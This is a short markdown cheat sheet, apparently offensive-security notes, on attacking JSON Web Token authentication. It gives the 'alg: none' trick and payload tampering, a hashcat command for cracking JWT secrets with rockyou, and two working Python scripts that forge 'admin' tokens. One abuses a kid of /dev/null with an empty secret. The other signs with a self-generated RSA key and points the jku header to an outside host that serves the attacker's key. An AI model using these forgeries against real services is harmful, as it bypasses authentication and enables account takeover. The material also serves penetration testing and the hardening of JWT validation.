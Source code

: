 
# JWT Checks

## None

Decode the "Header" and change the "alg" to be a variation of "none":

- None
- none
- NoNe
- NONE

Remove the signature but keep the second period.  
Tamper the payload to what you need.  

## Not checking Sig?

Decode and change the "Payload", the server may not be checking it anyway.  

## Crack with Hashcat

Copy the original JWT to a text file and run Hashcat against it:  

```bash
hashcat -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

## Specific Techniques

The following code exploits the ability to set the KID to a predictable value on a Linux machine

```python3
"""
'kid' header stands for 'Key ID'.
The vulnerability comes from being able to set the kid  to a predictable value.
On a linux machine you can set the kid to '/dev/null' which returns nothing.
Then set the secret to a blank value and sign the jwt with it.
"""

#!/usr/bin/env python3
import jwt

secret = ''
payload = {
    "user":"admin"
}
alg = "HS256"
header = {
    "kid":"/dev/null"
}

token = jwt.encode(payload, secret, algorithm= alg, headers=header)
print(token)
```

Create keys with OpenSSL and setting 'e' and 'n'

```python3
import jwt
import OpenSSL
import json
import base64
import hashlib
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding

key = OpenSSL.crypto.PKey()
key.generate_key(type=OpenSSL.crypto.TYPE_RSA,bits=2048)
priv = key.to_cryptography_key()
pub = priv.public_key()

header = {
  "alg":"RS256",
  "jwk":  {
          "kty":"RSA",
          # "kid":"bilbo.baggins@hobbiton.example",
          "use":"sig"
          },
  "typ": "JWT",
  "jku": "http://157.245.154.213:8000/a/jwk"
}

e = pub.public_numbers().e
n = pub.public_numbers().n

header['jwk']['e'] = base64.urlsafe_b64encode((e).to_bytes((e).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')
header['jwk']['n'] = base64.urlsafe_b64encode((n).to_bytes((n).bit_length()//8+1,byteorder='big')).decode('utf8').rstrip('=')

payload = {
  "user": "admin"
}

token = jwt.encode(payload, priv, algorithm="RS256", headers=header)

print(f"Token: {token}\ne: {header['jwk']['e']}\nn: {header['jwk']['n']}")

```

